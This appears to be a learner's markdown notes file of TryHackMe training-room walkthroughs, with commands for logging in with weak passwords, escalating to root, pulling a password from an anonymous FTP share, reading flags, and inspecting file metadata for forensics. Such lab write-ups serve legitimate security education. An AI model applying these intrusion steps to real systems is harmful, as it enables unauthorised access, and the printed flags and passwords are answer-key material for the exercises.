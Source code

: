 
## Operating System Security

[link][https://tryhackme.com/room/operatingsystemsecurity]

```
>>> ssh sammie@10.10.223.168; pw: dragon
>>> su - johnny; pw: abc123
>>> su - root; pw: happyHack!NG
THM{YouGotRoot}
```

## Network Security

[link](https://tryhackme.com/room/intronetworksecurity)

- Steps to break into network

```
# 1. Recon
>>> nmap 10.10.133.59 
 21/tcp open  ftp
 22/tcp open  ssh 
 80/tcp open  http

# 2. TCP
>>> tcp 10.10.133.59; Name: anonymous
>>> get secret.txt; cat secret.txt; password: ABC789xyz123

# 3. Connecting to root
>>> ssh root@10.10.133.59; pw: ABC789xyz123
>>> cat flag.txt; 
THM{FTP_SERVER_OWNED}

# 4. Finding other account flags
>>> cd /home/librarian
>>> cat flag.txt; THM{LIBRARIAN_ACCOUNT_COMPROMISED}

```

## Intro to Digital Forensics

[link](https://tryhackme.com/room/introdigitalforensics)

* establishing chain of custody to keep track of who has what evidence;

```
>>> cd ransomletter2/

# 1. check pdf metadata with 'pdfinfo'
>>> pdfinfo ransom-letter.pdf
Ann Gree Shepherd

# 2. check image metadata using 'exiftool'
>>> exiftool letter-image.jpg
GPS Position: 51 deg 30' 51.90" N, 0 deg 5' 38.73" W
51° 30' 51.90" N, 0° 5' 38.73" W
site: https://www.findlatitudeandlongitude.com/l/51+30%27+N+0+07%27+W/1478795/

```

## Security Operations

[link](https://tryhackme.com/room/securityoperations)




